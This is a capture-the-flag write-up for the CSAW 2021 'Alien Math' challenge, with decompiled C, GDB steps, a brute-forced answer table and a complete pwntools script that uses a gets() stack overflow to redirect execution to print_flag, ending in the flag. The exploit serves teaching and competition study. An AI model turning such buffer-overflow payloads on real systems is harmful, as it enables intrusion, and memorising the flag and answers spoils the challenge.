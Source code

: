 The goal of this challenge is to call the print_flag function which opens the flag.txt file on the remote server. In order to call the print_flag function you have to answer two questions correctly to get to the vulnerable `gets` function in `final_question`.
While the first and second questions do not have b0f vulnerable functions they have poor implementations of rand() that enable you to bypass the checks in order to get to the vulnerable function.

Main takes user input from `__isoc99_scanf` and string formats it to a decimal number. Then `rand()` is called with a default seed and compared against the user input. This is not a secure function and can is easily predicted. This funciton will always return the same result on the first iteration based on your version of libc if given a default seed. Since we have to bypass this check we have two options; to either have python generate the value or pull it from memory. I chose to pull the value from GDB.

`b *main+103` to stop at ` 0x00000000004015f5 <+103>:	cmp    QWORD PTR [rbp-0x8],rax`

`$rax` is compared to `$rbp-0x8` so we examine this offset on the stack: `x/gx $rbp-0x8` and we get `0x7fffffffdcf8:	0x000000006b8b4567` or 1804289383 in decimal.

           
     
```c
int main(void)

{
  int tmp_rand;
  char q2_buf [36];
  int q1_buf;
  long val_rand;
  
  puts("\n==== Flirbgarple Math Pop Quiz ====");
  puts("=== Make an A to receive a flag! ===\n");
  puts("What is the square root of zopnol?");
  fflush(stdout);
  __isoc99_scanf(" %d",&q1_buf);
  tmp_rand = rand();
  val_rand = (long)tmp_rand;
  if (val_rand == q1_buf) {
    puts("Correct!\n");
    fflush(stdout);
    getchar();
    puts("How many tewgrunbs are in a qorbnorbf?");
    fflush(stdout);
    __isoc99_scanf("%24s",q2_buf);
    second_question(q2_buf);
  }
  else {
    puts("Incorrect. That\'s an F for you!");
  }
  return 0;
}
```

After this `__isoc99_scanf` is called again and our input is formated to a max of 24 characters as a string. Our input is then put passed into the `second_question` function

Next some funky values are placed on the stack and our input is sent through a convulated transformation. 
```c
void second_question(char *user_input)

{
  int y;
  size_t len_var_to_match;
  ulong uVar1;
  undefined8 var_to_match;
  undefined8 unused1;
  undefined8 unused2;
  int index;
  char x;
  
  index = 0;
  while( true ) {
    uVar1 = SEXT48(index);
    len_var_to_match = strlen(user_input);
    if (len_var_to_match - 1 <= uVar1) {
      var_to_match = 3762247539570849591;
      unused1 = 0x3332333535323538;
      unused2 = 0x353232393232;
      len_var_to_match = strlen((char *)&var_to_match);
      y = strncmp((char *)&var_to_match,user_input,len_var_to_match);
      if (y == 0) {
        puts("Genius! One question left...\n");
        final_question();
        puts("Not quite. Double check your calculations.\nYou made a B. So close!\n");
      }
      else {
        puts("You get a C. No flag this time.\n");
      }
      return;
    }
    if ((user_input[index] < '0') || ('9' < user_input[index])) break;
    x = user_input[(long)index + 1];
    y = second_question_function((int)user_input[index],user_input[index] + index);
    y = x + -48 + y;
    user_input[(long)index + 1] = (char)y + (char)(y / 10) * -10 + '0';
    index = index + 1;
  }
  puts("Xolplsmorp! Invalid input!\n");
  puts("You get a C. No flag this time.\n");
  return;
}
```
The transformation is compared against a static value of 7759406485255323229225. We can pull this value from memory:

`b *second_question+358` then give some input and continue and `x/gx $rdi` which yields 7759406485255323229225.

Again we have two options; we can either model the function in python and use [Microsoft's z3 utilities to create the acceptable input](https://github.com/CR15PR/CSAW2021/blob/main/pwn/Alien_math/z3_Solver.py) or [brute force the key](https://github.com/CR15PR/CSAW2021/blob/main/pwn/Alien_math/brute_force.py) character by character since the same input will always produce the same output.

User input is stored in `$rsi` so using this breakpoint you can character by character observe the changes to yield the correct result:

      7 - 7
      78 - 77
      785 - 775 
      7856 - 7759
      78564 - 77594
      785644 - 775940
      7856445 - 7759406
      78564458 - 77594064
      785644589 - 775940648
      7856445899 - 7759406485
      78564458992 - 77594064852
      785644589921 - 775940648525
      7856445899213 - 7759406485255
      78564458992130 - 77594064852553
      785644589921306 - 775940648525532
      7856445899213065 - 7759406485255323
      78564458992130654 - 77594064852553232
      785644589921306542 - 775940648525532322
      7856445899213065428 - 7759406485255323229
      78564458992130654287 - 77594064852553232292
      785644589921306542879 - 775940648525532322922
      7856445899213065428791 - 7759406485255323229225

We can confirm our correct value again at `second_question+358`:

![pic](https://github.com/CR15PR/CSAW2021/blob/main/pwn/Alien_math/alien-math-rdi-rsi.png)

After this `final_question` is called and we find the vulnerable `gets` fucntion. This is a standard b0f that allows us to control `$rip` in order to call the `print_flag` function.

Using `! python3 -c "import pwn; print(pwn.cyclic(100, n=8))" > cyclic` we determine the offset to get a SIGSEV is 24. We use pwntools amazing abstraction ability to find the location of the print_flag symbol and pack it little endien compliant: `printFlag = p64(math_elf.symbols.print_flag)`.

We then send our [payload](https://github.com/CR15PR/CSAW2021/blob/main/pwn/Alien_math/solver.py) and get our flag.

```python
#!/usr/bin/env python3

from pwn import *

LOCAL = False
context.binary = binary = '/home/mckenziepepper/Documents/b0f-chals/CSAW/alien_math'
math_elf = ELF(binary)
context.log_level = 'debug'
printFlag = p64(math_elf.symbols.print_flag)
OFFSET = 24
junk = b"A" * OFFSET

if LOCAL == False:
    p = remote('pwn.chal.csaw.io', 5004, ssl=False)
else:
    p = process('/home/mckenziepepper/Documents/b0f-chals/CSAW/alien_math')

guess1 = b"1804289383"
p.sendlineafter("What is the square root of zopnol?", guess1)
leak = p.recvuntil("!\n")
log.info(f"{leak = }")

if b"Correct!\n" in leak:
    guess2 = b"7856445899213065428791" #------> What we want to make: 7759406485255323229225
    p.sendlineafter("How many tewgrunbs are in a qorbnorbf?", guess2)
    #leak = p.recvuntil("You get a C. No flag this time.\n") ------> Debugging purposes
    leak = p.recvuntil("Genius! One question left...\n")
    log.info(f"{leak = }")

    if b"\nGenius!" in leak:
        payload = [
            junk,
            printFlag,
        ]
        payload = b''.join(payload)
        #payload = b''.join([p64(r) for r in payload])
        p.sendline(payload)
        p.interactive()
    else:
        p.kill()
else:
    p.kill()
```

    Here is your flag: 
    flag{w3fL15n1Rx!_y0u_r34lLy4R3@_fL1rBg@rpL3_m4573R!}
